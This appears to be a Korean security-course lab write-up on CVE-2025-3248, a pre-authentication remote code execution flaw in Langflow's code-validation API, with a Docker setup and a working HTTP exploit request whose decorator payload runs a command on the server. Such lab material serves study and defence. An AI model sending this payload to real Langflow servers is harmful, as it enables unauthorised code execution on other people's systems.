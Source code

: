 #  Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

> 화이트햇 스쿨 3기 5반 - [유진우 (@jin182)](https://github.com/jin182)

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, 사용자는 웹 기반의 Python 인터페이스를 통해 시각적으로 AI 파이프라인을 구성할 수 있습니다.

버전 1.3.0 미만의 Langflow에는 심각한 인증 우회 원격 코드 실행(RCE) 취약점인 CVE-2025-3248이 존재합니다.
취약한 엔드포인트 /api/v1/validate/code는 사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, 함수 정의를 exec()를 이용해 실행함으로써 유효성을 검사합니다.
하지만 Python에서는 데코레이터나 기본 인자 값도 함수 정의 시점에 실행되기 때문에, 이를 악용해 임의의 코드 실행이 가능합니다.

공격자는 악성 데코레이터 또는 기본 인자 표현식을 포함한 특수 제작된 함수 정의를 이 API에 전송함으로써, 서버 사용자 권한으로 코드를 실행할 수 있습니다.

참고자료:
- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

환경 구성
아래 명령어를 실행하면 Langflow 1.2.0 서버가 Docker로 실행됩니다:

```
docker compose up -d
```

![](1.png)

서버가 실행되면, 웹 인터페이스는 http://your-ip:7860에서 접근할 수 있으며
기본 로그인 정보는 administrator:vulhub입니다.

취약점 재현
다음은 이 취약점을 재현하는 방법입니다.
/api/v1/validate/code 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송하면 됩니다.
아래 예시는 데코레이터를 통해 서버에서 id 명령을 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```